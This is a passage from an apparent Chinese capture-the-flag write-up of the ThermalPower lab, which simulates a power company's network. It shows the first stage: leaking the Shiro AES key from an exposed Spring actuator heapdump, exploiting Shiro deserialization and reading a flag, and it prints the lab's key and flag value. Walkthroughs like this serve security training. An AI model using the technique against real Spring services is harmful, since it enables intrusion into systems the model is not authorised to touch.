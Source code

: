 ```yaml
---
layout: post
title: ThermalPower - 春秋云境
category: [春秋云境]
tags: [shiro, heapdump, SCADA]
---
```


![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/c5c26451df96d327.png)

靶标介绍：

该场景模拟仿真了电力生产企业的部分业务场景。“火创能源” 公司在未充分重视网络安全的威胁的情况下，将敏感区域的服务错误地配置在公网上，使得外部的 APT 组织可以轻松地访问这些服务，最终导致控制电力分配、生产流程和其他关键设备的服务遭受攻击，并部署了勒索病毒。 玩家的任务是分析 APT 组织的渗透行为，按照关卡列表恢复其攻击路径，并对勒索病毒加密的文件进行解密。 附件地址：https://pan.baidu.com/s/13jTP6jWi6tLWkbyO8SQSnQ?pwd=kj6h

| 内网地址      | Host or FQDN | 简要描述              |
| ------------- | ------------ | --------------------- |
| 172.22.17.213 | security     | spring + shiro        |
| 172.22.17.6   | WIN-ENGINEER | SCADA 工程师的个人 PC |
| 172.22.26.11  | WIN-SCADA    | SCADA 工程师站        |

## 第一关 | Spring Heapdump + Shiro Deserialization

关卡剧情：
评估暴露在公网的服务的安全性，尝试建立通向生产区的立足点。

---

8080 端口存在 shiro 特征：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/374dbaf030f44236.png)

下载 `/actuator/heapdump` 文件并使用 [whwlsfb/JDumpSpider](https://github.com/whwlsfb/JDumpSpider) 分析 heapdump 文件，获取到 Shiro 的 Key：

```console
root@kali-server:~# java -jar JDumpSpider-1.1-SNAPSHOT-full.jar heapdump

===========================================
CookieRememberMeManager(ShiroKey)
-------------
algMode = CBC, key = QZYysgMYhG6/CzIJlVpR2g==, algName = AES
```

Shiro 反序列化利用：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/45e4cf71acc0c8df.png)

获取 flag01：

```console
root@security:~# cat /flag01.txt
   ████  ██                    ████   ██
  ░██░  ░██            █████  █░░░██ ███
 ██████ ░██  ██████   ██░░░██░█  █░█░░██
░░░██░  ░██ ░░░░░░██ ░██  ░██░█ █ ░█ ░██
  ░██   ░██  ███████ ░░██████░██  ░█ ░██
  ░██   ░██ ██░░░░██  ░░░░░██░█   ░█ ░██
  ░██   ███░░████████  █████ ░ ████  ████
  ░░   ░░░  ░░░░░░░░  ░░░░░   ░░░░  ░░░░


flag01: flag{78cdaa8f-db36-4c9c-b9e9-c1622ff180c4}
```